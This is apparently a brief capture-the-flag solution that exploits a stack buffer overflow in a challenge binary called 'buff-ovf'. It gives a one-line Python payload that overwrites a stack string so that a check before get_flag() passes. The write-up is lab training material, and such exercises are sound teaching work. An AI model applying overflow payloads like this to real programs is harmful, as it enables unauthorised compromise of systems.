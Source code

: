# Solution

Use the buffer overflow to overwrite a string on the stack.
This is going to be copied to a global variable that is checked before calling the `get_flag()` function.

```sh
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*10 + b"Bye")' | ./buff-ovf
```
